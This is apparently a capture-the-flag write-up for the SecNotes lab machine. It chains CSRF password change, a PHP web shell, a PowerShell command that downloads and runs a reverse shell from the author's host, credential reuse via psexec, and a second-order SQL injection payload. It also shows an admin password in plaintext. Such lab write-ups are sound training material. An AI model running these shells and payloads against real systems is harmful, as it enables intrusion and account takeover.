

# Summary

SecNotes was a medium difficulty Windows box. Being an earlier HTB box it wasn't as involved as some of the more recent medium boxes. The initial foothold involved getting finding credentials to access a share over SMB which can be done via an XSRF or a second order SQL injection. The share is the webroot of a development site into which we can write a PHP scripto get RCE. The privilege escalation involved finding credentials in a history file in Windows Subsystem for Linux from which we can psexec into the box as the administrator. I'll also look into the artifacts psexec leaves behind.

<details open>
<summary></summary>
  
* [External Enumeration](#external-enumeration)
* [Cross Site Request Forgery](#xsrf)
* [Initial Access](#initial-access)
* [Privilege Escalation](#privilege-escalation)
* [Second Order SQLI](#second-order-sqli)

</details>

## External Enumeration

I'll first run a port scan against the box using my alias `fscan`


We see ports 80,445,8808 are open. Ports 80 and 8808 are running `Microsoft IIS httpd 10.0` though nmap shows a redirect to `login.php` on port 80.

Visiting the website shows a login form with an option to signup


I'll signup with the credentials `max:password`


Logging in presents us with the option to create a new note, change our password, signout or contact someone on the backend of the site. The second and last options present us with some opportunities. Perhaps we could change the password of another user then access their notes, or perform an attack against someone checking the contact messages, or both!


The contact form sends a message to `tyler@secnotes.htb`. If tyler is clicking on links we may be able to perform XSS/XSRF



First I'll check the logic behind changing the password. I'll change my password to `password1` and intercept the request in burpsuite


Note that the current password is not included anywhere in the request, and there's no XSRF token generated prior to making the request. I'll send it over to repeater and change the request method to a `GET` and submit the request.


We get a 200 OK after a 302 redirect. I'll logout and try logging in with `max:password1`


Changing the password worked with a GET request. What I'll do now is to send tyler the URL I submitted to the server to change my password via the contact form, and if he visits it, his password will change provided his browser has cached an authenticated session to the site.

## XSRF


I'll submit the link `http://10.10.10.97/change_pass.php?password=password2&confirm_password=password2&submit=submit` in the contact form follwed by `http://10.10.14.31/done` and start a netcat listener on port 80, so if I get a request through for `/done` I'll know Tyler visited the malicious link.


On my listener I get a connection and I can now login with `tyler:password` and access his notes.


We see a note for `new site`. This is likely referring to the site on port 8808. It appears to contains credentials for the share `\\secnotes.htb\new-site`. I'll check access with `smbmap`


We have write access over the `new-site` share. Visiting the share with `smbclient` shows we're in the webroot of the site on port 8808.


## Initial Access

I'll create `shell.php` containing
```
<?php system($_REQUEST['cmd']); ?>
```
and upload it to the share. Visiting the URL `http://10.10.10.97:8808/shell.php?cmd=whoami` shows we have code execution on the server.


From here I'll write a powershell reverse shell in `shell.ps1` to call back to port 9001 on my box and host it on a python webserver. I'll start a netcat listener on port 9001, then I'll visit the URL 

`http://10.10.10.97:8808/shell.php?cmd=powershell iex(iwr -uri http://10.10.14.31/shell.ps1 -usebasicparsing)`

I get a request to my webserver


followed by a connection on my listener


## Privilege Escalation

Checking out `c:\users\tyler\desktop` we find `user.txt` but also an interesting file named `bash.lnk`. Reading the file we can pick out `bash.exe` in `c:\Windows\System32`. This usually indicates Windows Subsystem for Linux is installed. 


I'll play around with `bash` and see what I can find in the Linux filesystem.


We're root inside the Linux filesystem and find a `.bash_history` inside `/root`. Reading this file we find some admin credentials used over smb.


With these credentials I could mount `c$` on localhost as admin with `net use \\127.0.0.1\c$ /user:administrator u6!4ZwgwOM#^OBf#Nwnh` or I could use powershell's `Enter-PSSession` or I could use the credentials with impacket's `psexec` to get a shell. I'll /opt for psexec.


I get a shell returned as `NT AUTHORITY\SYSTEM`. From here I can read `root.txt` in `c:\users\administrator\desktop`

## Second Order SQLI

An SQLI occurs when user input is used directly in an SQL query in an unsafe way. A second order SQLI is when user input is stored in a database then retrieved and used as part of a later query in an unsafe way. Here, the register function uses prepared statements to remove user input from the query itself, as seen below. 


However when the notes are retrieved to be displayed on the home page, the username is directly concatenated into a SQL query. Therefore we can register a username which does our bidding when called in the query in `home.php`.


We can see that if we register the username `' or 1='1`, the above query becomes
```SELECT id, title, note, created_at FROM posts WHERE username='' or 1='1'```
Since mysql interprets `1='1'` as true, `'' or 1='1'` also evaluates to true, so we retrieve the notes for every user.


